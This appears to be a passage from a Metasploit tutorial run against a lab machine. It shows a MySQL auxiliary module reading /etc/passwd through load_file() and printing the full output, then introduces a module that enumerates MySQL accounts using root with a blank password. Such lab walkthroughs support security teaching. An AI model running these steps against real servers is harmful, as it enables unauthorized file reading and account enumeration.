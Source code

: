 msf auxiliary(mysql_sql) > run

[*] Sending statement: 'select load_file('/etc/passwd')'...
[*]  | root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/bin/sh
bin:x:2:2:bin:/bin:/bin/sh
sys:x:3:3:sys:/dev:/bin/sh
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/bin/sh
man:x:6:12:man:/var/cache/man:/bin/sh
lp:x:7:7:lp:/var/spool/lpd:/bin/sh
mail:x:8:8:mail:/var/mail:/bin/sh
news:x:9:9:news:/var/spool/news:/bin/sh
uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh
proxy:x:13:13:proxy:/bin:/bin/sh
www-data:x:33:33:www-data:/var/www:/bin/sh
backup:x:34:34:backup:/var/backups:/bin/sh
list:x:38:38:Mailing List Manager:/var/list:/bin/sh
irc:x:39:39:ircd:/var/run/ircd:/bin/sh
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh
nobody:x:65534:65534:nobody:/nonexistent:/bin/sh
libuuid:x:100:101::/var/lib/libuuid:/bin/sh
dhcp:x:101:102::/nonexistent:/bin/false
syslog:x:102:103::/home/syslog:/bin/false
klog:x:103:104::/home/klog:/bin/false
sshd:x:104:65534::/var/run/sshd:/usr/sbin/nologin
msfadmin:x:1000:1000:msfadmin,,,:/home/msfadmin:/bin/bash
bind:x:105:113::/var/cache/bind:/bin/false
postfix:x:106:115::/var/spool/postfix:/bin/false
ftp:x:107:65534::/home/ftp:/bin/false
postgres:x:108:117:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
mysql:x:109:118:MySQL Server,,,:/var/lib/mysql:/bin/false
tomcat55:x:110:65534::/usr/share/tomcat5.5:/bin/false
distccd:x:111:65534::/:/bin/false
user:x:1001:1001:just a user,111,,:/home/user:/bin/bash
service:x:1002:1002:,,,:/home/service:/bin/bash
telnetd:x:112:120::/nonexistent:/bin/false
proftpd:x:113:65534::/var/run/proftpd:/bin/false
statd:x:114:65534::/var/lib/nfs:/bin/false
snmp:x:115:65534::/var/lib/snmp:/bin/false
 |
[*] Auxiliary module execution completed
msf auxiliary(mysql_sql) >

MySQL Enumerate Users

This is the other mysql admin exploit. This one will enumerate (list) all of the MySQL accounts on the system and their various privileges.

Using it is as easy as pie. You set the username and password variables to root and blank password, then set the port and remote host ip address. Then you're good to go.

msf auxiliary(mysql_sql) > use auxiliary/admin/mysql/mysql_enum
msf auxiliary(mysql_enum) > show options
